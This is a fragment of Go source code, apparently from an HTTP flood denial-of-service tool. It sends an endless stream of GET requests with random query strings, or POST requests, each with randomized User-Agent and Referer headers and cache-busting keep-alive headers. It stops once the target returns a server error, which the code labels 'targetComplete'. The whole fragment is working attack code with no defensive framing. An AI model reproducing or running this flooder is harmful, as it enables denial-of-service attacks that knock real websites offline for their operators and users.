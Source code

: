 	for {
		var q *http.Request
		var err error

		if data == "" {
			q, err = http.NewRequest("GET", url+param_joiner+buildblock(rand.Intn(7)+3)+"="+buildblock(rand.Intn(7)+3), nil)
		} else {
			q, err = http.NewRequest("POST", url, strings.NewReader(data))
		}

		if err != nil {
			s <- callExitOnErr
			return
		}

		q.Header.Set("User-Agent", headersUseragents[rand.Intn(len(headersUseragents))])
		q.Header.Set("Cache-Control", "no-cache")
		q.Header.Set("Accept-Charset", acceptCharset)
		q.Header.Set("Referer", headersReferers[rand.Intn(len(headersReferers))]+buildblock(rand.Intn(5)+5))
		q.Header.Set("Keep-Alive", strconv.Itoa(rand.Intn(10)+100))
		q.Header.Set("Connection", "keep-alive")
		q.Header.Set("Host", host)

		// Overwrite headers with parameters

		for _, element := range headers {
			words := strings.Split(element, ":")
			q.Header.Set(strings.TrimSpace(words[0]), strings.TrimSpace(words[1]))
		}

		r, e := client.Do(q)
		if e != nil {
			fmt.Fprintln(os.Stderr, e.Error())
			if strings.Contains(e.Error(), "socket: Quá nhiều tệp mở") {
				s <- callExitOnTooManyFiles
				return
			}
			s <- callExitOnErr
			return
		}
		r.Body.Close()
		s <- callGotOk
		if safe {
			if r.StatusCode >= 500 {
				s <- targetComplete
			}
		}
	}
}

func buildblock(size int) (s string) {
	var a []rune
	for i := 0; i < size; i++ {
		a = append(a, rune(rand.Intn(25)+65))
	}
	return string(a)
}
